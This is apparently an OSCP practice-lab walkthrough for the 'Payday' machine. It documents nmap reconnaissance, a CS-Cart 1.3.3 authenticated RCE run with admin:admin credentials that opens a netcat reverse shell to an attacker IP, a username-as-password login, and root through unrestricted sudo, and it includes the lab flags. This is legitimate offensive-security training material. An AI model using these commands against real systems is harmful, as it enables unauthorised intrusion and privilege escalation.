

# Payday - OSCP Practice Lab

**Target IP:** 192.168.148.39  
**Difficulty:** Easy  
**Attack Path:** Web Application Exploit → Weak Credentials → Sudo Misconfiguration

---

## Executive Summary

Payday is an Easy-rated Linux machine running CS-Cart 1.3.3, a vulnerable e-commerce platform. The attack path involves exploiting a known remote code execution vulnerability in CS-Cart, escalating privileges through weak credential reuse, and achieving root access via unrestricted sudo permissions.

**Key Vulnerabilities:**
- CS-Cart v1.3.3 - Authenticated RCE
- Weak credential practices (username = password)
- Unrestricted sudo access for user `patrick`

---

## Reconnaissance

### Port Scanning

Initial nmap scan revealed 8 open ports:

```bash
nmap 192.168.148.39
```

**Results:**
```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
993/tcp open  imaps
995/tcp open  pop3s
```

**Analysis:**
- HTTP (80) - Primary attack surface
- SSH (22) - Potential lateral movement
- SMB (139/445) - Information gathering opportunity
- Mail services (110/143/993/995) - Secondary targets

### Service Enumeration

Focused enumeration on HTTP service revealed:
- **Application:** CS-Cart e-commerce platform
- **Version:** 1.3.3 (identified via fingerprinting)



---

## Exploitation

### Initial Foothold - CS-Cart 1.3.3 RCE

**Vulnerability:** CS-Cart v1.3.3 contains an authenticated remote code execution vulnerability allowing file upload and execution.

**Exploit Source:** https://github.com/jayngng/cs-cartv1.3.3

#### Exploit Execution

```bash
sudo ./bin/python3 cs_cart.py \
  --url http://192.168.148.39 \
  -U admin \
  -P admin \
  -l 192.168.45.188 \
  -p 4444
```

**Exploit Output:**
```
[*] Checking URL ...
[*] Checking CS-Cart version ...
[+] VULNERABLE CS-Cart version: 1.3.3
[*] Grabbing acsid token for authentication: b84c14faa63c7d8ed33769a935981832
[+] Successfully logged in.
[*] Trying to upload shell...
[*] Triggering the shell and start netcat listener.
```

#### Reverse Shell Received

Despite the exploit reporting an error, a reverse shell was successfully established:

```bash
rlwrap nc -lvnp 4444
```

**Connection:**
```
Listening on 0.0.0.0 4444
Connection received on 192.168.148.39 44399
```

**Initial Access:** `www-data` shell established ✓

---

## Privilege Escalation

### User Flag - Local.txt

Enumerated `/home` directory and discovered user `patrick`:

```bash
cd /home
ls
# patrick

cd patrick
cat local.txt
```

**Local Flag:** `13c8852492069f61f1f2525ab57d1ef4` ✓

### Lateral Movement - Weak Credentials

Attempted credential reuse attack with username as password:

```bash
su patrick
Password: patrick
```

**Success!** User `patrick` compromised via weak password policy.

**Privilege:** User-level access ✓

### Root Escalation - Sudo Misconfiguration

Enumerated sudo privileges for user `patrick`:

```bash
sudo -l
```

**Output:**
```
[sudo] password for patrick: patrick

User patrick may run the following commands on this host:
    (ALL) ALL
```

**Critical Finding:** User `patrick` has unrestricted sudo access to ALL commands.

#### Root Access

```bash
sudo su
cd /root
cat proof.txt
```

**Proof Flag:** `434353fc72661eeeb32385915e4e72a6` ✓

**Privilege:** Root access achieved ✓

---
## Lessons Learned

### Key Takeaways
1. **User Enumeration is Critical:** Always check `/home` directory for potential user accounts
2. **Test Weak Credentials:** Username-as-password is a common misconfiguration
3. **Sudo Privileges:** `sudo -l` should be standard in privilege escalation methodology
4. **Default Credentials:** Many web applications use predictable admin credentials

---

## Attack Chain Summary

```
[Nmap Scan] → [CS-Cart 1.3.3 Discovery] → [RCE Exploit] 
    ↓
[www-data shell] → [User Enumeration] → [su patrick:patrick]
    ↓
[User Access] → [sudo -l] → [sudo su]
    ↓
[ROOT ACCESS] 🎯
```

---

## Timestamps

- **Initial Scan:** 2026-01-12 14:20 +0100
- **Exploitation:** 2026-01-12 14:35:18
- **Root Access:** 2026-01-12 14:40 (approx)
- **Total Time:** ~20 minutes

---

## Tools Used

- `nmap` - Port scanning and service enumeration
- `cs_cart.py` - CS-Cart 1.3.3 RCE exploit
- `netcat` - Reverse shell listener
- `rlwrap` - Shell stabilization
- Built-in Linux commands (`su`, `sudo`, `ls`, `cat`)

---

**Machine Pwned!** 💀🎉
